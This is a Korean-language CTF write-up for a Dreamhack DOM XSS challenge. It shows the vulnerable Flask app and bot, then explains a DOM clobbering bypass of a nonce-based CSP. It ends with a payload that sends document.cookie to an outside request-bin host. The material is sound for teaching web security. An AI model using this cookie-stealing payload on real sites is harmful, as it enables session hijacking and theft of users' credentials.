 ## DOM XSS
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, name, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}#{name}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}' 'strict-dynamic'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", nonce=nonce, param=param)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        name = request.form.get("name")
        if not check_xss(param, name, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```

<br>

vuln.html

![vuln.html](https://user-images.githubusercontent.com/52172169/166129011-cea81770-a310-4945-af00-3ebbe89516eb.png)

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

DOM Clobbering을 이용해서 푸는 문제이다.
: <a href="https://learn.dreamhack.io/326#5" target="_blank">Exploit Tech: Document Object Model Vulnerability</a>

<br>

```javascript
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
</script>
```

<br>

위와 같은 코드가 있는데, 보면 ```name_elem.innerHTML```으로 코드를 삽입해준다. 

```name_elem``` 변수는 ```document.getElementById("name");```를 통해 id가 name인 태그를 가리키도록 한다. 

즉, id가 name이고 속성 중에 값으로 innerHTML을 갖는 태그가 있으면 거기로 접근하게 될 것이다.

<br>

HTML id, name, class 속성 차이점
: <a href="https://penguingoon.tistory.com/116" target="_blank">penguingoon.tistory.com/116</a>

<br>

따라서 아래와 같은 코드를 넣어주면 된다.
: ```<script id="name" name="innerHTML"></script>#alert();//```

<br>

alert가 실행된다. 최종 코드는 아래와 같다.
: ```<script id='name' name='innerHTML'></script>#location.href='https://bxzhrfy.request.dreamhack.games?cookie='+document.cookie;//```

<br><br>
<hr style="border: 2px solid;">
<br><br>
